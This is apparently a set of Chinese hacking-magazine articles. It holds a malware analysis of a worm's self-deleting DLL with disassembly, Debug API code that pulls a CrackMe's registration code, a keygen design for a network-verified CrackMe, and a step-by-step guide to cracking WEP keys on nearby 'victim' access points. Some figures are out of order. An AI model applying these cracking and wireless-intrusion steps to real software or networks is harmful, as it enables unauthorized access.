用FFI检测SelfDel.dll，没有加壳，文件有3072字节。查看TimeDateStamp时间戳，文件创建于2008年8月27日2:27:46。这个DLL导入了KERNEL32.dll的6个函数，但是仅导出了MagicDelete一个函数，相对比较简单。

在OllyDbg下加载，ImageBase为10000000，导出函数MagicDelete的RVA为0000101B，故在1000101B处找到MagicDelete的反汇编代码片段。这个函数不大，还不满50行的规模，其内部的执行流程也非常简单。这个函数顾名思义应该是删除文件，但它究竟magic在何处，还有待我们分析。

在前面的分析基础上，我们知道是02.exe首先写入了这个DLL，再用rundll32.exe调用MagicDelete函数。由外部传入的参数是02.exe的运行路径，在我们的例子中是C:\NEW\02_unpacked.exe。

MagicDelete 根据外部参数，首先调用 `DeleteFileA` 进行删除，删除的目标正是 `C:\NEW\02.exe`，有该 API 的参数为证。然后，程序调用 `Sleep` 函数小憩一会，100ms 之后，开始下一轮删除行动。以下是函数关键部分的代码片段。

```asm
10001044  push 1000201C
; /pModule = "Kernel32.dll"
10001049  call <jmp.&KERNEL32.GetModuleHandleA>
; \GetModuleHandleA
1000104E  mov edi, eax
10001050  push 104
; /MemSize = 104 (260.)
10001055  push 40
; |Flags = GPTR
10001057  call <jmp.&KERNEL32.GlobalAlloc>
; \GlobalAlloc
1000105C  push eax
1000105D  push 104
; /BufSize = 104 (260.)
10001062  push eax
; |pPathBuffer
10001063  push dword ptr [10003000]
; |hModule = 10000000 (SelfDel)
10001069  call <jmp.&KERNEL32.GetModuleFileNameA>
; \GetModuleFileNameA
1000106E  pop eax
1000106F  push 0
10001071  push 0
10001073  push eax
10001074  push 10002029
; /ProcNameOrOrdinal = "ExitProcess"
10001079  push edi
; |hModule
1000107A  call <jmp.&KERNEL32.GetProcAddress>
; \GetProcAddress
1000107F  push eax
10001080  push dword ptr [10003000]
; SelfDel,10000000
10001086  push 10002035
; /ProcNameOrOrdinal = "DeleteFileA"
1000108B  push edi
; |hModule
1000108C  call <jmp.&KERNEL32.GetProcAddress>
; \GetProcAddress
10001091  push eax
10001092  push 10002041
; /ProcNameOrOrdinal = "FreeLibrary"
10001097  push edi
```

```asm
; \hModule
10001098  call <jmp.&KERNEL32.GetProcAddress>
; \GetProcAddress
1000109D  push eax
1000109E  retn
```

MagicDelete 函数返回之前，按顺序向栈中压入了若干值，包括当前模块的文件名——SelfDel.dll，`ExitProcess`、`DeleteFileA` 和 `FreeLibrary` 在 Kernel32.dll 中的函数地址等。下表给出了 `retn` 执行之前的堆栈内容和说明。

| 堆栈地址 | 堆栈数据 | 数据说明 |
|---|---|---|
| (栈顶)0006FF54 | 7C80AA66 | kernel32.FreeLibrary 地址 |
| 0006FF58 | 7C81E85C | kernel32.DeleteFileA 地址 |
| 0006FF5C | 10000000 | SelfDel,10000000 |
| 0006FF60 | 7C81CAA2 | kernel32.ExitProcess 地址 |
| 0006FF64 | 0009A3D0 | ASCII `"C:\NEW\SelfDel.dll"` |
| 0006FF68 | 00000000 | 数值 0 |
| (栈底)0006FF6C | 00000000 | 数值 0 |

SelfDel.dll 构造了这样的堆栈结构，实现了自删除功能。其过程是这样的：首先借助 rundll32.exe 的帮助，不用创建加载和调用该 DLL 的 EXE 文件就执行了 DLL 导出的函数 MagicDelete。MagicDelete 函数地址进栈的顺序是 `ExitProcess`、`DeleteFileA`、`FreeLibrary`，当然期间也压入了各函数的相关参数。此时从栈顶往栈底看下去，函数的存放顺序是 `FreeLibrary`、`DeleteFileA` 和 `ExitProcess` 及它们的参数。最关键的是后面的程序执行了一个 `ret` 指令，会转到原来保存在栈中的返回地址处继续执行，这有点缓冲区溢出的味道。现在的栈顶，esp 的指向是 `FreeLibrary(SelfDel,10000000)`，首先执行它，释放对 SelfDel.dll 的加载；再执行 `DeleteFileA("C:\NEW\SelfDel.dll")`，删除磁盘上的 SelfDel.dll 文件；最后 `ExitProcess(0)`，退出进程，以防继续执行下去会产生程序异常。这个自删除步骤的完成需要借助汇编语言的帮忙，因为高级语言无法直接使用堆栈操作。流程可以简略表示如下：

```asm
push ...      ; 压入函数参数
push ExitProcess
push ...      ; 压入函数参数
push DeleteFile
push FreeLibrary
ret
```

可能有疑问的是，为什么函数地址和其参数不是连续压入栈中，而是间隔了一些距离，例如 `DeleteFileA` 的地址和其参数 `C:\NEW\SelfDel.dll` 之间相隔了 8 个字节，其他函数亦然。这是由 Windows 的函数调用机制 stdcall 决定的：调用函数时，参数从右向左压入堆栈，且函数自身修改堆栈。被调用的函数 callee 修改堆栈后，callee 的 ebp 为 caller 的 esp，新的栈底指针 ebp 之前有如下内容：caller 的 ebp、cs:eip、参数1、参数2。在 callee 中要访问参数1，要用 `[ebp+8]` 来访问，也就是 `[caller 的 esp+8]`，这就是 caller 压栈时函数地址和参数相差 8 byte 的原因了。那或许又有疑问，为何不采用显式地在 MagicDelete 中用 C 函数调用的方式直接调用 `FreeLibrary`、`DeleteFileA` 和 `ExitProcess` 呢？因为此时 MagicDelete 还在执行，`FreeLibrary` 会使代码页无效，导致异常，后面的删除也无法执行。而执行 `ret` 指令，执行转移到堆栈上，退出了 MagicDelete 的代码页，再 `FreeLibrary` 就不会出现问题。我猜这也就是该函数命名为 MagicDelete 的原因吧。按照程序的反汇编原理，我还原了一段自删除的 DLL 源代码，已收录随书光盘中。

SelfDel.dll 的主要作用是删除当前运行的病毒 `02.exe` 程序的磁盘实体，实现自删除。从 SelfDel.dll 建立（02.exe 将其写入 system32 文件夹）到自删除的时间来看，这个文件的生命周期是相当短暂的，但其作用却不可忽略，无疑是隐藏病毒运行的又一方法。SelfDel.dll 首先删除参数传入的文件，然后 `Sleep` 一会儿，这是给外面的病毒文件 02.exe 的退出留一点喘息时间，然后再用随后取得的 3 个函数实现自删除。

#### 一点思考

在分析 `02_unpacked.exe` 的章节里，我们说过，`02_unpacked.exe` 首先检查程序是否以参数运行，如果没有，才执行下面的感染流程。那有参数的情况下呢？病毒主体只接受两种参数：“-u”和“/u”。以“`02_unpacked.exe -u`”“`02_unpacked.exe /u`”方式运行病毒主体，如果确认是上述两种参数，那有趣的事情就发生了——病毒将会自我卸载。

卸载的操作发生在 00401000 处的代码里，是通过删除设备文件 `\\.\sHJBKernel`、卸载驱动、删除驱动文件、删除其他衍生病毒文件（如 `explore.exe`）等步骤完成的。这个卸载操作不算彻底，但至少可以让病毒离开系统，只是注册表中仍然残留有 HBKernel 的痕迹。我根据这个卸载过程以及后来该病毒的发展变异过程，自己也写了一个清理蠕虫军团病毒的程序，源代码也一起收录光盘中，可以适用于当前版本，即我们的 `02.exe` 的消毒，也可以用于部分后续变种的清理操作。

仔细思考，我们发现这个病毒并没有严格地遵循病毒的那几个生长阶段。相比之下，它只有感染和隐藏的细节，而没有传播的过程。当 SelfDel.dll 删除了主体文件和自删除以后，`explore.exe`、`Hbmhly.dll` 和 `HBKernel.sys` 都没有传播的能力。或许它的威胁只在于下载更多的木马来感染本地系统，或许称其为一个木马下载器更为合适。

蠕虫军团病毒后来演化出好几个版本，威力也有所增强。病毒主体文件学会了删除 360 的启动项 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 下的 `360Safebox` 和 `360Safetray`；释放新的驱动 `HBKernel32.dll`；增强了 `explore.exe` 的功能，并将其重命名为 `System.exe`，后者加载新的 DLL 文件 `HBWOVW.dll`；并且改用 `SelfDel.bat` 脚本的形式实现自删除，更加隐蔽了。

但就算如此，蠕虫军团的威力仍够不上前列，和磁碟机、机器狗等比起来，确实显得弱小了许多，但它是一种首次采用群段战术甚至是兵团作战的恶意程序。它一旦执行，就会在瞬间下载上百个木马，就像蝗灾来袭时那样铺天盖地。各种木马功能各异，有的关闭杀毒软件，有的拦截用户登录安全网站，还有的弹出恶意广告。以这样的思路和防护软件对抗确实也不啻为一种无招胜有招，或许它们也明白这个道理——马多威力大，病多毒性深啊。毕竟木马也是程序员的智慧成果嘛，只可惜有的时候这种成果变成了后果罢了。

> （编辑提醒：本文涉及的代码已收入随书光盘，请到光盘中查找）

### 前置知识：VC

- 关键词：破解，Debug API，调试

#### 用 Debug API

##### 蹂躏正统注册码


文／图  莫云

Debug API 功能很强大，写调试器、自动脱壳器，包括外挂都用得到。最近无意间发现了一个比较容易破解 CrackMe 的程序，正好可以用它来当本文的主打菜，用 Debug API 练手。

这个 CrackMe 是用 VB 写的，比较简单。用 OD 载入后在 `__vbaStrCmp` 上设断，让它跑起来，输入我们的注册码之后点“注册”。被 OD 拦下后，用 `ALT+F9` 返回 CrackMe 的空间，往上一行就是一个 CALL，CALL 的地址在我的电脑上是 `40385Ah`，如图1所示。


图1

在 CALL 上面有两个 push 语句，我们可以把断点设到 CALL 的这个地址上。再让它运行起来点“注册”，注意看断点被 OD 拦截后，ECX 和 EDX 寄存器中的内容，如图2所示。


图2

可以看到，ECX 保存的地址是我输入的注册码，而 EDX 保存的地址中的值我实验过，是真正的注册码。也就是说，只要用 Debug API 在 CALL，或者是从 CALL 这个地址到 `403858h` 这个地址范围内设断的话，就可以去 EDX 中读取保存真正注册码的地址了，也就能得到真正的注册码了。既然知道了注册码保存的位置，那么就应该可以下手了。

开始我们的踩点计划。我们的断点应该可以下到 `403858h`、`403859h` 和 `40385Ah` 上，这里选 `403859h`。设断点其实就是往欲设断点处写入 `int 3` 指令的机器码 `0xCC`。`403859h` 地址处的 PUSH 指令是个单字节指令，刚好和 `int3` 指令一样，所以就选择设在这个地址。设在 CALL 上也是完全可以的，只要设断在合理的地方怎么都可以，就看自己的想法和意思了。

在用户态下，要调试一个进程有两种方法去创建与被调试进程建立会话：一个是用 `CreateProcess()` 带 `DEBUG_PROCESS` 和 `DEBUG_ONLY_THIS_PROCESS` 参数创建被调试进程，从而达到建立调试会话，就好比用 OD 打开一个程序一样。还有一种方法是用 `DebugActiveProcess()` 把要被调试的进程附加到调试器进程上来建立调试会话，就好比用 OD 去附加一个进程一样。我们这里对两种方法都介绍一下，很多地方都介绍用 `CreateProcess()` 去创建被调试进程，但是关于 `DebugActiveProcess()` 的例子比较少，因此我也打算在这篇文章里提一提。

在调试之初是建立两个进程的调试会话，关于建立调试会话的两种方式在上面已经介绍过了。调试会话建立后，要进行的就是两个进程之间的通信了。通信基本是以调试器进程为主，就是调试器进程告诉进程如何做、怎么做，而被调试进程在按照调试器进程的要求做完后告知调试器进程，或者是在执行的过程中有其他异常情况之类的也要向调试器进程反馈。

重复性的工作，被称为调试循环。这个调试循环的执行直到调试器进程用 `DebugActiveProcessStop()` 函数来停止调试会话，或者是调试器进程或被调试进程结束时才会退出。调试事件的获取是调试器进程调用 `WaitForDebugEvent()` 函数来获取的，这样就可以根据被调试进程不同的情况进行相应的响应。响应结束后，调用 `ContinueDebugEvent()` 函数来让调试循环继续循环，从而重复上面的步骤。调试循环的构成如下：

```c
while(WaitForDebugEvent(......))
{
    switch()
    {
        // 相应的情况，和处理事件
    }
    ContinueDebugEvent(......);
}
```

上面的代码框架就是一个调试循环。在 `switch` 中加入相应的响应和处理事件就成为一个完整的调试循环了。调试事件是由 `WaitForDebugEvent()` 通过一个 `DEBUG_EVENT` 结构来获取的，我们看看这个结构的定义。

```c
typedef struct _DEBUG_EVENT {
    DWORD dwDebugEventCode;
    DWORD dwProcessId;
    DWORD dwThreadId;
    union {
        EXCEPTION_DEBUG_INFO Exception;
        CREATE_THREAD_DEBUG_INFO CreateThread;
        CREATE_PROCESS_DEBUG_INFO CreateProcessInfo;
        EXIT_THREAD_DEBUG_INFO ExitThread;
        EXIT_PROCESS_DEBUG_INFO ExitProcess;
        LOAD_DLL_DEBUG_INFO LoadDll;
        UNLOAD_DLL_DEBUG_INFO UnloadDll;
        OUTPUT_DEBUG_STRING_INFO DebugString;
        RIP_INFO RipInfo;
    } u;
} DEBUG_EVENT, *LPDEBUG_EVENT;
```

可以看出来这个结构体是相对比较复杂的。在结构体中有一个联合体 `u`，而里面的成员又是各种不同的结构体类型。这里就不详细讨论这个结构体了，只介绍能用到的部分。在调试循环的 `switch` 语句中，是根据不同的调试类型做出不同选择的。

`DEBUG_EVENT` 结构的 `dwDebugEventCode` 来指出它的值有一些定义。这里能用到的有以下几个：

```c
#define EXCEPTION_DEBUG_EVENT 1
#define CREATE_PROCESS_DEBUG_EVENT 3
#define EXIT_PROCESS_DEBUG_EVENT 5
```

这 3 个调试类型真是见名知意，第 1 个是异常调试事件，第 2 个是进程创建调试事件，第 3 个是进程退出调试事件。这 3 个里面关键的是第 1 个，即异常调试事件。异常调试事件是我们用来处理异常的，比如断点异常。进程创建调试事件可以用来保存进程的标识符和进程句柄、线程标识符和线程句柄；进程退出事件可以用来做一些收尾工作，或者直接用 `break` 退出调试循环。有了这些，我们就可以放到我们的调试循环中了。修改过的调试循环如下：

```c
while(WaitForDebugEvent(&de, INFINITE))
{
    switch(de.dwDebugEventCode)
    {
        case CREATE_PROCESS_DEBUG_EVENT:
        {
            // 把 int3 指令的机器码写入 403859h 地址处
            WriteProcessMemory(hP, (LPVOID)0x403859, (LPVOID)&Int3, sizeof(BYTE), (LPDWORD)&n);
        }
        case EXIT_PROCESS_DEBUG_EVENT:
        {
            break;
        }
        case EXCEPTION_DEBUG_EVENT:
        {
        }
    }
    ContinueDebugEvent(de.dwProcessId, de.dwThreadId, DBG_CONTINUE);
}
```

我们的代码又进一步完成了。剩下就看我们最关键的地方了，就是如何处理异常调试事件。

```c
if (EXCEPTION_BREAKPOINT == de.u.Exception.ExceptionRecord.ExceptionCode)
{
    context.ContextFlags = CONTEXT_FULL;
    HANDLE hT = OpenThread(THREAD_ALL_ACCESS, FALSE, de.dwThreadId);
    GetThreadContext(hT, &context);
    if ((0x403859 + 1) == context.Eip)
    {
        // ...
    }
}
```

```c
{
    ReadProcessMemory(hP, (LPVOID)context.Edx, (LPVOID)pKey, MAX_PATH, (LPDWORD)&n);
    printf("注册码是：%S\n", pKey);
    context.Eip--;
    Int3 = '\x52';
    WriteProcessMemory(hP, (LPVOID)0x403859, (LPVOID)&Int3, sizeof(BYTE), (LPDWORD)&n);
    SetThreadContext(hT, &context);
    CloseHandle(hT);
    ContinueDebugEvent(de.dwProcessId, de.dwThreadId, DBG_CONTINUE);
    break;
}
CloseHandle(hT);
}
```

```c
else if (EXCEPTION_DEBUG_EVENT == de.dwDebugEventCode)
{
    if (EXCEPTION_BREAKPOINT == de.u.Exception.ExceptionRecord.ExceptionCode)
    {
        context.ContextFlags = CONTEXT_FULL;
        hT = OpenThread(THREAD_ALL_ACCESS, FALSE, de.dwThreadId);
        GetThreadContext(hT, &context);
        if ((0x403859 + 1) == context.Eip)
        {
            ReadProcessMemory(hP, (LPVOID)context.Edx, (LPVOID)pKey, MAX_PATH, (LPDWORD)&n);
            printf("注册码是：%S\n", pKey);
            context.Eip--;
            Int3 = '\x52';
            WriteProcessMemory(hP, (LPVOID)0x403859, (LPVOID)&Int3, sizeof(BYTE), (LPDWORD)&n);
            SetThreadContext(hT, &context);
            CloseHandle(hT);
            ContinueDebugEvent(de.dwProcessId, de.dwThreadId, DBG_CONTINUE);
            break;
        }
        CloseHandle(hT);
    }
    ContinueDebugEvent(de.dwProcessId, de.dwThreadId, DBG_CONTINUE);
}
CloseHandle(hP);
DebugActiveProcessStop(pid);
```

DEBUG_EVENT.u.ExceptionRecord.ExceptionCode 保存的是异常类型。如果异常类型是断点异常的话，也就是 EXCEPTION_BREAKPOINT 的话，我们首先用 GetThreadContext() 函数得到 EIP 的值，判断一下是否是我们设断地址的下一条指令的地址处。为什么是下一条指令而不是设断的当前指令呢？当 CPU 读取当前指令后，EIP 自动指向下一条指令的地址处。如果是我们设断地址的下一条指令的地址处，那么我们就从 Edx 寄存器指向的内存地址处读取注册码的内容，再恢复断点处的指令，并用 SetThreadContext() 函数恢复掉设断地址处，重新执行这条语句，或者是模拟执行设断的那条指令，再看一下完整的代码：

```c
hwnd = FindWindow(NULL, _T("DynaReport 注册"));
GetWindowThreadProcessId(hwnd, (LPDWORD)&pid);
DebugActiveProcess(pid);
hP = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
while (WaitForDebugEvent(&de, INFINITE))
{
    if (EXIT_PROCESS_DEBUG_EVENT == de.dwDebugEventCode)
    {
        break;
    }
    else if (CREATE_PROCESS_DEBUG_EVENT == de.dwDebugEventCode)
    {
        WriteProcessMemory(hP, (LPVOID)0x403859, (LPVOID)&Int3, sizeof(BYTE), (LPDWORD)&n);
    }
    ...
}
```

这就是 DebugActiveProcess() 附加到调试进程上的代码。既然这个程序完成了，那么我们就点击这个 CrackMe 的注册按钮来看看结果吧，如图 3 所示。看到正确的注册码了吧？只要填入 15346DN11416 这个注册码就可以注册成功了。


图 3

再来看看这个 CrackMe 用 CreateProcess() 创建调试会话后处理异常调试和 DebugActiveProcess() 不同的地方。我们不说它们之间用法的不同，就说说 CrackMe 自身给我们带来的不同。用 OD 打开这个 CrackMe，让 CrackMe 运行起来，CrackMe 会产生一些异常被 OD 捕获，但 OD 并没有处理这些异常事件，因此中间会多次按 SHIFT+F9 忽略这些异常而使程序继续运行。其实在多数壳中都会自己产生一些异常，然后用自身的异常处理来一步一步走向正确的地址。而这个 CrackMe 的异常可能也是为调试设下的障碍而用吧，不知道是不是。不过在 OD 中设置一下把所有异常都忽略掉，再打开这个 CrackMe 时，就不会多次按 SHIFT+F9 了。如果我们用 CreateProcess() 创建与这个 CrackMe 的调试会话的话，那么这些异常也是会被我们的 WaitForDebugEvent() 捕获，同时也会响应 EXCEPTION_DEBUG_EVENT 事件，这些事件我们也是不会去处理的，如果调试器不处理的话，会交由软件本身的异常处理去处理这些异常事件。因此我们让它继续运行，所不同的是 ContinueDebugEvent() 中的参数不是 DBG_CONTINUE，而是 DBG_EXCEPTION_NOT_HANDLED，也就是通知被调试进程这个异常不予处理自行解决。通常情况下，DBG_CONTINUE 和 DBG_EXCEPTION_NOT_HANDLED 没有什么区别，都是让程序运行起来。但是遇到异常时，这两个参数的意义就不同了。看一下由 CreateProcess() 创建调试会话后的异常处理部分。

```c
if (EXCEPTION_BREAKPOINT == de.u.Exception.ExceptionRecord.ExceptionCode)
{
    context.ContextFlags = CONTEXT_FULL;
    GetThreadContext(pi.hThread, &context);
    if ((0x403859 + 1) == context.Eip)
    {
        ReadProcessMemory(pi.hProcess, (LPVOID)context.Edx, (LPVOID)pKey, MAX_PATH, (LPDWORD)&n);
        printf("注册码是: %S\n", pKey);
        context.Eip--;
        Int3 = '\x52';
        WriteProcessMemory(pi.hProcess, (LPVOID)0x403859, (LPVOID)&Int3, sizeof(BYTE), (LPDWORD)&n);
        SetThreadContext(pi.hThread, &context);
    }
}
```

```c
else
{
    ContinueDebugEvent(de.dwProcessId, de.dwThreadId, DBG_EXCEPTION_NOT_HANDLED);
}
```

其实最大的不同也就是多了一条 else，不是断点异常的异常使用 DBG_EXCEPTION_NOT_HANDLED 进行处理。

在上面的两个处理中，有一点是需要注意的，就是注册码在内存中是以 Unicode 字符串保存的，如图 4 所示。因此我们需要把保存注册码地址的字符指针定义为 Unicode 型字符指针，而用 printf() 输出字符串时，控制符应该用 %S（大写 S）来输出。


图 4

两个方法一个是通过查找窗口句柄，另一个是直接新建一个进程。这样写成两个程序的话实在是不怎么方便。那么是否可以写到一个程序中？其实是可以的。这里只给出一个大体的框架供大家参考。

```c
hWnd = FindWindow(NULL, _T("DynaReport 注册"));
if (hWnd)
{ // 找到则附加到被调试进程上
    GetWindowThreadProcessId(hWnd, (LPDWORD)&Pid);
    bRet = DebugActiveProcess(Pid);
}
else
{
    // 没找到则以调试模式创建进程
    GetStartupInfo(&si);
    bRet = CreateProcess(szFileName, NULL, NULL, NULL, FALSE, DEBUG_PROCESS | DEBUG_ONLY_THIS_PROCESS, NULL, NULL, &si, &pi);
}
if (bRet)
{
    while (WaitForDebugEvent(&de, INFINITE))
    {
        switch (de.dwDebugEventCode)
        {
        case CREATE_PROCESS_DEBUG_EVENT:
            break;
        }
    }
}
```

```cpp
case EXIT_PROCESS_DEBUG_EVENT:
{
    break;
}
case EXCEPTION_DEBUG_EVENT:
{
    break;
}

ContinueDebugEvent(de.dwProcessId, de.dwThreadId, DBG_CONTINUE);
```

这样一来的话，是不是又正规化一点了？如果自己写个界面菜单，用菜单里的打开可以创建一个被调试进程，也可以通过菜单里的附加，附加到一个进程上……如果真的是那样的话就真的太好了。Debug API 除了这些还有很多内容，比如硬件断点，就是我们在 OD 中用的 hr 命令。硬件断点是通过“调试寄存器”来完成的，就是 Dr0~Dr7。虽然调试寄存器有 8 个，但可以使用的只有 4 个，就是 Dr0~Dr3，其他的 4 个有两个保留、两个用做控制。而调试寄存器的功能更为强大，OD 中用的 F2 断点就是在前文中介绍的 Int3 了。当然，关于 Debug API 的内容还有很多，这里就不介绍了，希望本文能对大家有所帮助。

前置知识：汇编  
关键词：破解，网络验证，Keygen

## 网络验证的Keygen编写探讨


文／图 woosheep

时下最流行的验证注册方法，莫过于网络验证。而由于涉及网络，使得我们无法遵循常规编写 Keygen。难道网络验证就是 Keygen 终结者？不！下面我就借助一款网络验证的 CrackMe，一起探讨编写网络验证 Keygen 的思路。

网络验证，通常为 C/S 模式，一般基于 TCP 协议传输。服务端，也就是验证注册的远程主机，通常通过 bind 函数绑定 IP 地址和端口并进行服务请求监听，一般情况下，我们是看不到服务端程序的；而我们的 CrackMe 扮演的是客户端的角色，先指定远程主机的 IP 和端口，然后通过 connect 函数对远程主机发起连接请求并调用 send 发送数据。远程主机接收数据并运算后，会返回注册成功或者失败的信息。

现在运行 CrackMe，什么都不填，直接点击“Register”。若干秒后，提示“Error: Connection failed”说明连接错误。如果安装了防火墙，在此之前可能还会提示程序要连接网络，不过无论允许连接与否，结果都一样，因为指定 IP 地址的指定端口根本没有服务端程序在监听，连接肯定失败。所以，我们要编写网络验证的 Keygen，第 1 步要做的，就是找到网络验证的服务端 IP 地址以及端口，并修改为指向本地 IP，通常为“127.0.0.1”这样，验证程序就会改为尝试连接本地端口进行网络验证了。

根据“Error: Connection failed”提示，依照网络编程的惯例，一般为调用了 connect 函数后的典型连接失败提示，而调用 connect 函数之前，必须先指定远程主机的 IP 和端口。那么，查找此字串，来到连接错误提示处，往上几行，是 connect 函数的调用，再往上，就可以得到如下的代码：

```asm
00401244  push 0            ; Protocol = IPPROTO_IP
00401246  push 1            ; Type = SOCK_STREAM
00401248  push 2            ; Family = AF_INET
0040124A  call socket
0040124F  push 22ADh        ; NetShort = 22AD
00401254  mov esi, eax
00401256  mov word ptr [esp+8], 2
0040125D  call ntohs
00401262  push 004060B0     ; "127.0.0.1"
00401267  mov word ptr [esp+A], ax
0040126C  call inet_addr
```

我们需要收集的 IP 地址以及端口信息就一网打尽了。本 CrackMe 指定的验证主机 IP 为“127.0.0.1”正巧指向本地，就不用修改了，否则可以用 HEX 编辑器打开程序后搜索相应字串并进行修改。指定监听的端口是 22ADH，转换过来为十进制的 8877。

接着看反汇编代码，如果调用 connect 函数成功，下面就会两次调用 send 函数发送数据，发送的内容猜也知道是用户名和注册码。个人认为 send 不必太关心，因为我们编写 Keygen 应该不会无聊到真的去进行注册信息验证，只需要象征性地调用 recv 函数接收一下了事。值得注意的是，从程序调用 Socket 函数的参数可看出，本程序采用的是 SOCK_STREAM 流式套接字，是没有字符边界的，所以尽管有两处 send，但我们只需保证 buffer 足够大并调用一次 recv 即可。

之后就是最后一步，也是最重要的一步：让 Keygen 向 CrackMe 发送注册成功的信息。我们在反汇编代码中看到，两个 send 函数之后就是 recv 函数的调用，需要注意 recv 函数设置的 Buffer 的地址。由于调用 recv 函数接收回来的数据都保存在 Buffer 中，而这个数据就是注册成功与否的信息，所以接下来程序肯定要对 Buffer 的地址进行内存访问，只要设置内存访问断点，就可以确定程序在何处验证注册成功与否。

对 Buffer 地址下内存访问断点后，运行，断在如下代码处：

```asm
00401331  mov cl, byte ptr [esp+eax+14]
00401335  xor cl, dl
00401337  mov byte ptr [esp+eax+14], cl
0040133B  inc eax
0040133C  cmp eax, 6
0040133F  jb short 00401331    ; 循环5次
00401341  push ebx
00401342  mov byte ptr [esp+1E], 0
00401347  mov esi, 0040607C     ; chkps
0040134C  lea eax, [esp+18]
00401350  mov dl, byte ptr [eax]
00401352  mov bl, byte ptr [esi]
00401356  cmp dl, bl
00401358  jnz short 00401378
0040135A  test cl, cl
0040135C  je short 00401374      ; 注册成功
```

[esp+eax+14] 就是 Buffer 的内存地址，程序将接收到的数据按位依次与 dl 异或，循环 5 次，得到的结果如果为“chkps”，则注册成功。至此，我们离成功只剩一步：确定 dl 值的来源。往上看，很快就会发现，原来 dl 的值是根据用户名的 ASCII 码的值依次相加，得到的累加值再加 1 算出来的。

至此，编写 Keygen 的情报收集工作全部完成，破解此网络验证 CrackMe 的 Keygen 的算法也就成型了：首先绑定本地 IP，监听 8877 端口；然后接收注册用户名，将其 ASCII 码依次累加并加 1；最后用“chkps”去与之异或，只要别忘了把结果发回 CrackMe，我想，破解此网络验证就再没有问题了。

前置知识：无  
关键词：破解、WEP、无线

## BT3+Spoonwep2+卡王破解WEP密码

文／图 happywolf


当前国内外无线网络迅速发展，无线化城市纷纷涌现，无线安全已成为一大研究热点，无线网络的破解随着 BackTrack 的出世而不断普及。对于毫无经验者，虽然遍地都是破解的经验、方法，但实践中往往无从下手，而系统性的操作又需要花费不少时间去学习。本文抛砖引玉，希望能以图形化操作界面的方式与大家交流破解经验。

笔者在这一点吃过亏，使用 Linksys 的 WUSB54GC 白白浪费了几天几夜却毫无结果。有时为了接收更远的无线信号，无线黑客会添加天线。通常，天线按其指向性可大致分为全向天线、多向天线和单向天线等类型。一般来说，单向天线只适合与固定地点进行通信，不适合做移动式无线攻击；其优点在于远距离捕获数据包效果最好。在绝大多数场合，多向天线是双向（一个前向和一个后向配置）或 4 向的，其接收范围通常要比同功率的单向天线略小一些。全向天线最符合大多数人对天线的直观印象，接收范围也是 3 种类型里最小的，不过对于城市中心的无线攻击，反而往往最合适。

#### 准备工作

> 工欲善其事，必先利其器

要想成功破解 WEP 密码，需要做好软件和硬件两方面的准备工作。

##### 1. 硬件准备

主要包括无线网卡和天线两个部分。选择无线网卡时，主要应注意芯片类型、是否支持外接天线、网卡固件版本、支持的无线协议、网卡功率等，其中关键在于网卡所使用的芯片。芯片不同可能导致无线攻击工具某些功能不能实现。无线黑客主要使用的网卡芯片有 Atheros 以及 Prism 系列，其他如 Ralink、Orinoco 芯片也不错。对于笔记本内置网卡，通常是 Intel 或 IBM。IBM 使用的是 Atheros 芯片，而 Intel 芯片通常需要额外安装或升级驱动才能实施无线攻击。对于某些网卡来说，其固件版本也很重要。

选择网卡和天线最简捷实用的方法，就是直接上淘宝网搜索“卡王”，可以发现商家往往都配备好无线网卡、天线以及 USB 延长线，加上快递费不到 400 元就能搞定。顺便提一句，传闻名为“卡皇”的无线网卡比“卡王”更好更强大，不过笔者没有用过。

##### 2. 软件准备

主要是操作系统和无线破解软件两部分。Windows 和 Linux 平台下都有众多无线工具，但个人认为 BackTrack3（简称 BT3）与图形化工具 Spoonwep2 配合较为实用。

BT3有USB、Live CD和VMware等3种版本，均可以从 http://remote-exploit.org/backtrack_download.html 下载。Spoonwep2则可以从 http://www.fuyu.us/attachment.php?id=62 下载。

非Atheros网卡，选择NORMAL即可，如图3所示；第3项为选择破解模式，如果已知无线接入点（AP）的MAC地址和使用信道等信息，可以选择“KNOWN VICTIM”，否则选择“UNKNOWN VICTIM”，如图4所示，然后点击“NEXT”。

#### 步步为营实战

下面以VMware版的BT3为例，讲解如何破解WEP。

- 1. 启动BT3

启动BT3虚拟机后，输入用户名root、密码toor，在命令行下输入startx即可进入BT3的图形界面。如果遇到黑屏，则在输入用户名和密码后，输入xconf，等黑屏一会儿，然后在出现的提示符下输入startx即可。

- 2. BT3安装Spoonwep2

对于不同的BT版本，Spoonwep2的安装方法不一样。如果下载的是USB版和光盘版的BT3，可以用WinISO等软件在BT3的ISO光盘映像中找到BT3/modules/这个目录，直接把spoonwep2.lzm放进去就行。如果下载的是VMware版的BT3，那么就需要使用命令了，步骤如下：打开shell终端，建立一个目录，命令为“mkdir spoonwep2”；将spoonwep2.lzm里面的文件解压缩到刚刚建立的文件夹中，命令为“lzm2dir spoonwep2.lzm spoonwep2”；进入这个spoonwep2的目录，把里面的usr目录下的内容替换掉/usr中的。安装好了spoonwep2，就可以开始破解了。

- 3. 手把手破解WEP

首先在shell终端中输入“ifconfig -a”即可知道无线网卡的接口号，我的无线网卡接口为wlan0，如图1所示。

从菜单选择启动Spoonwep2，也可以从终端输入spoonwep启动。spoonwep界面非常简洁，主界面的第1项是选择网卡接口，前面已知无线网卡接口为wlan0，所以这里选择wlan0，如图2所示。主界面的第2项为选择无线网卡类型，对于非Atheros网卡，选择NORMAL即可，如图3所示。


图1


图2


图3


图4


图6

进入“VICTIM DISCOVERY”选项卡，本界面主要是发现目标无线接入点，也有两种方式，固定信道和全信道扫描，此处选择“全信道扫描”，如图5所示，然后点击“LAUNCH”。

spoonwep2提供了4种破解方式，分别为ARP注入、交互注入、断续注入以及碎片注入。对于有客户端的AP，可以使用ARP注入方式，这种方式可以快速产生大量数据包，很快就能得到所需要的IVS。无客户端的破解可以使用后3种方式。另一个需要选择的就是密钥长度，通常国内使用的是64位的密钥，为了进一步提高破解速度，可以选择64位，然后点击“LAUNCH”。之后要做的就是等待，结果出来后，会显示图7所示的界面。


图5

稍等一会儿，扫描结果开始以表格形式显示，从左到右各项依次为“AP名”“AP的MAC地址”“信道号”“信号强度”“捕获数据”“是否有客户端连接”。对于有客户端连接的AP，“CLIS”被划上对号。有客户端和无客户端的WEP破解方式不一样，破解所花时间也不一样，下面以有客户端破解为例快速破解WEP密码。此处选择信号强度最大且有客户端的无线接入点netgear，并选择一个信号强度最大的客户端，如图6所示，点击“SELECTION OK”，进入攻击界面。


图7

